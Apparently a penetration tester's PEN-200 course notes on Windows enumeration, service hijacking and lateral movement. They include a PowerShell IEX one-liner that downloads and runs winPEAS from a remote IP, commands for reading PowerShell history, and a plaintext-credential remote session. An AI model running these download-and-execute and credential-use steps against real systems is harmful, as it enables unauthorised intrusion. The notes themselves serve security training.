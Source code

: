 # From pen-200 course.  




### Host enumeration

**can be automated with winPEAS.ps1**
```powershell
IEX(New-Object Net.WebClient).downloadString('http://192.168.45.247/winPEAS.ps1')
```
[winPEAS Github](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)

<br>

**Enumeration checklist**

- Username and hostname
- Group memberships of the current user
- Existing users and groups
- Operating system, version and architecture
- Network information
- Installed applications
- Running processes

<br><br><br>
Get all local users:  Get-LocalUser  
<a name="Get-LocalUser">

Get all local groups: Get-LocalGroup   OR net localgroup  
<a name="Get-LocalGroup">

Gather:  
- systeminfo
- ipconfig /a
- route print
- netstat -ano
- Get-Process
**SHOWS THE POWERSHELL  HISTORY**
- Get-History       
- type (Get-PSReadlineOption).HistorySavePath **this shows all history. Even what Clear-history doesnt clear**
- 
  <br><br>

  Get all installed programs X86:
  ``` powershell
  Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
  ```

  Get all installed programs X64:
  ```powershell
  Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
  ```
<br>
<br>
<br>

### Leveraging Windows Services
<br>

***To get a list of all installed Windows services, we can choose various methods such as the GUI snap-in services.msc, the Get-Service Cmdlet, or the Get-CimInstance Cmdlet (superseding Get-WmiObject)***

<br><br><br>
#### Service Binary Hijacking

**get all running services, name,state and pathname**
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

<br>
<br>
<br>

  

### printer spooler enumeration
Check to see if print spooler is running
ls "\dc01\pipe\spoolss"

<br>
<br>
<br>


### Lateral movement techniques  
<br>
- Lateral movement with Enter-PSSession:
  
``` Powershell
$password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)
Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
```
<br>
- Lateral movement with Evil-winrm(apparently enter-pssession isnt too stable)
[Evil-WinRm github](https://github.com/Hackplayers/evil-winrm)

**WinRm is on port 5985**

<img width="835" height="725" alt="image" src="https://github.com/user-attachments/assets/13bc6534-e9d7-49a6-8c61-a06f995ea0cb" />



- 


  
